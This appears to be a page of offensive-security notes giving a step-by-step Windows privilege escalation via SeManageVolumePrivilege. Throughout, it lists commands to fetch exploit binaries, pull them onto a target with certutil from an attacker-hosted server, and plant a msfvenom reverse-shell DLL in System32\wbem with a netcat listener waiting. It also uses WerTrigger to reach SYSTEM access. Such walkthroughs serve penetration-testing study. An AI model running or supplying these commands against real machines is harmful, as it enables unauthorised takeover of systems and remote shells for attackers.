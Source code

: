 ```yaml
---
legal-banner: true
---
```


### **Step 1: Check current user privileges**

1.  Verify if the current user has `SeManageVolumePrivilege`:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/153.png)

    **Note:** If it is not enabled, proceed to Step 2.

### **Step 2: Enable SeManageVolumePrivilege (optional)**

1.  Download the `EnableAllTokenPrivs.ps1` script:  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/154.png)

    **Note:** Host the script with Python: `python -m http.server 80`
    
2.  Transfer the script to the target machine:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/155.png)

3.  Import the module to enable the privilege:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges again to confirm that `SeManageVolumePrivilege` is enabled:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/156.png)

### **DLL hijacking with Metasploit**

1.  Download and transfer `SeManageVolumeExploit.exe` to the target:  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/157.png)

    **Note:** Host the file with Python: `python -m http.server 80`
    
2.  Transfer it using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/158.png)
    
3.  Execute the exploit to gain write privileges to `C:\Windows\System32\`:  
    
    ![](../../../img/Windows-Environment/159.png)

4.  Create a malicious DLL payload with `msfvenom`:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f dll -o tzres.dll`  
    
    ![](../../../img/Windows-Environment/160.png)

    **Note:** Host with Python and transfer with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/tzres.dll tzres.dll`  
    
    ![](../../../img/Windows-Environment/161.png)

5.  Place the malicious DLL in the WBEM directory:  
    `copy tzres.dll C:\Windows\System32\wbem\`
    
6.  Set up a Netcat listener on the attacking machine:  
    `rlwrap -cAr nc -lnvp 1337`  
    
    ![](../../../img/Windows-Environment/162.png)

    **Note:** Running `systeminfo` will trigger the payload.

### **Exploit with WerTrigger**

1.  Download and transfer `SeManageVolumeExploit.exe` to the target:  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/163.png)

    **Note:** Host the file with Python: `python -m http.server 80`
    
2.  Execute the exploit to gain write privileges to `C:\Windows\System32\`:  
    
    ![](../../../img/Windows-Environment/164.png)

3.  Download required files:  
    ```
    wget https://github.com/sailay1996/WerTrigger/raw/master/bin/WerTrigger.exe
    wget https://github.com/sailay1996/WerTrigger/raw/master/bin/phoneinfo.dll
    wget https://raw.githubusercontent.com/sailay1996/WerTrigger/master/bin/Report.wer
    cp /usr/share/windows-resources/binaries/nc.exe .
    ```  
    
    ![](../../../img/Windows-Environment/165.png)

    **Note:** Host them with Python: `python -m http.server 80`
    
4.  Transfer files to the target using `certutil`:  
    ```
    certutil -urlcache -f http://[IP-ADDRESS]:80/WerTrigger.exe WerTrigger.exe
    certutil -urlcache -f http://[IP-ADDRESS]:80/phoneinfo.dll phoneinfo.dll
    certutil -urlcache -f http://[IP-ADDRESS]:80/nc.exe nc.exe
    certutil -urlcache -f http://[IP-ADDRESS]:80/Report.wer Report.wer
    ```  
    
    ![](../../../img/Windows-Environment/166.png)

5.  Copy `phoneinfo.dll` to `C:\Windows\System32\`, place `Report.wer` and `WerTrigger.exe` in the same directory, then run `WerTrigger.exe`:  
    
    ![](../../../img/Windows-Environment/167.png)

    **Note:** `WerTrigger.exe` produces no output; it waits for instructions.

6.  At this point, you should have SYSTEM-level access on the target machine.  
    
    ![](../../../img/Windows-Environment/168.png)